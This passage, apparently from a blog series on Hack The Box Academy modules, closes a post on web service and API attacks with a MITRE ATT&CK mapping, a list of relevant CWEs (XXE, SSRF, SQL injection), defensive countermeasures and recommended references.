| [`T1059`](https://attack.mitre.org/techniques/T1059/) | **Command and Scripting Interpreter** | `Execution` | Achieving remote command execution through API payload handling |


### Identified Common Weakness Enumerations (CWE)

- [`CWE-611`: Improper Restriction of XML External Entity Reference (XXE)](https://cwe.mitre.org/data/definitions/611.html)
- [`CWE-918`: Server-Side Request Forgery (SSRF)](https://cwe.mitre.org/data/definitions/918.html)
- [`CWE-89`: SQL Injection in Web Services](https://cwe.mitre.org/data/definitions/89.html)


---

## Detection Engineering & Defensive Countermeasures

Modern enterprise security programs must implement proactive, layered defense-in-depth controls to detect and mitigate the techniques covered in this module:

- Disable XML external entity parsing across all SOAP web service endpoints and XML parsers.
- Deploy API gateways (Kong, Apigee) that enforce strict JSON/XML schema validation before routing requests to backend services.
- Implement mutual TLS (mTLS) for internal microservice-to-microservice API communication.


---

## Authoritative References & Recommended Reading

- [HTB Academy: Web Service & API Attacks](https://academy.hackthebox.com/module/161) — *Official Hack The Box curriculum track*
- [OWASP API Security Top 10 2023](https://owasp.org/API-Security/) — *Official standard for API vulnerabilities*
- [W3C SOAP 1.2 Specification](https://www.w3.org/TR/soap12-part1/) — *Official SOAP messaging framework specification*
- [PortSwigger: Web Service Vulnerabilities](https://portswigger.net/web-security/api-testing) — *Interactive testing guides*


<div class="ff-series-nav">
  <a href="/posts/htb-academy-part-38-web-fuzzing/" class="ff-nav-btn text-start">
    <div class="ff-nav-arrow"><i class="fas fa-arrow-left"></i></div>
    <div class="ff-nav-text">
      <span class="ff-nav-kicker">Previous Part</span>
      <span class="ff-nav-title">Part 38: Web Fuzzing Methodologies & Wfuzz</span>
    </div>
  </a>
  <div class="ff-nav-center">
    <span class="ff-center-badge"><i class="fas fa-cube"></i> HTB Academy Series</span>
    <span class="ff-center-part">Part 39 of 41</span>
  </div>
  <a href="/posts/htb-academy-part-40-wifi-penetration-testing-basics/" class="ff-nav-btn text-end">
    <div class="ff-nav-text">
      <span class="ff-nav-kicker">Next Part</span>
      <span class="ff-nav-title">Part 40: Wi-Fi Penetration Testing Basics & 802.11 Analysis</span>
    </div>
    <div class="ff-nav-arrow"><i class="fas fa-arrow-right"></i></div>
  </a>
</div>
